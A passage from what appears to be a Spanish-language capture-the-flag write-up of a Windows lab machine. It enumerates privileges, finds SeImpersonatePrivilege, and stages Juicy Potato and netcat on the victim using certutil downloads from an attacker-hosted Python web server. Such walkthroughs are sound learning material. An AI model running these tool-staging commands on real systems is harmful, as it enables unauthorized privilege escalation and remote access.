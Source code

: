 Ya estamos dentro de la máquina como el usuario *tolis* y podemos visualizar la flag *user.txt*. Ahora lo que falta es encontrar una manera de escalar privilegios en el sistema, por lo que procedemos a enumerar:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\tolis\Desktop>
```

Observamos que se tiene habilitado el privilegio *SeImpersonatePrivilege*, por lo que podemos utilizar la herramienta *Juicy Potato*; por lo que descargarmos el ejecutable de algún recurso público [Github](https://github.com/ohpe/juicy-potato/releases/tag/v0.1), nos compartimos un servidor con python y lo transferimos a la máquina víctima; así como también el archivo *nc.exe*

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [07/Sep/2021 23:11:13] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.11 - - [07/Sep/2021 23:11:14] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.11 - - [07/Sep/2021 23:20:03] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.11 - - [07/Sep/2021 23:20:03] "GET /nc.exe HTTP/1.1" 200 -
```

```bash
cd C:\Windows\Temp\Privesc

certutil.exe -f -urlcache -split http://10.10.14.13/JuicyPotato.exe JP.exe
certutil.exe -f -urlcache -split http://10.10.14.13/JuicyPotato.exe JP.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>

certutil.exe -f -urlcache -split http://10.10.14.13/nc.exe nc.exe
****  Online  ****
  0000  ...
  6e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

